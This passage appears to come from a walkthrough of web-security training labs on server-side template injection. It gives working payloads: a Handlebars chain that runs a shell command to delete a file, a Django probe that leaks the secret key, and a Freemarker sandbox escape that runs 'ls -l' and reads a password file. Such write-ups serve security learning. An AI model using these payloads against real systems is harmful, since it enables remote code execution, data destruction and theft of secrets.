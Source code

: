 Try sending it as the value of `message`, we got the response from the server indicating a successfull SSTI attack. Now submit this to remove the target file:

    {{#with "s" as |string|}}
        {{#with "e"}}
            {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').execSync('rm morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                {{#with (string.sub.apply 0 codelist)}}
                    {{this}}
                {{/with}}
                {{/each}}
            {{/with}}
            {{/with}}
        {{/with}}
    {{/with}}

### LAB: Server-side template injection with information disclosure via user-supplied objects
Use the edit template function and try sending arbitrary values: `{{7*7}}`. The server responses with an error indicating it is using `Django` as a template engine. 
This time send `{{settings.SECRET_KEY}}`. The response is `True`, then debug mode is enabled, which can expose sensitive information.
Now send `{{ settings.SECRET_KEY }}` which right away return the framework's key.

### LAB: Server-side template injection in a sandboxed environment
Use the edit template function and try sending arbitrary values: `${sth}`. The server responses with an error indicating it is using `Freemarker` as a template engine.
Use this payload to escape sandbox and execute the OS command `ls -l`:

    <#assign classloader=article.class.protectionDomain.classLoader>
    <#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
    <#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
    <#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
    ${dwf.newInstance(ec,null)("ls -l")}

Notice that the server is indicating that `article` is `null`. But we do have access to the class `product`. Replace `article` with `product` to successfully execute the command. The response indicates that there is a file called `my_password.txt` in Carlos' home directory. This time use this payload to view the content of the file:

    <#assign classloader=product.class.protectionDomain.classLoader>
    <#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
    <#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
    <#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
    ${dwf.newInstance(ec,null)("cat my_password.txt")}
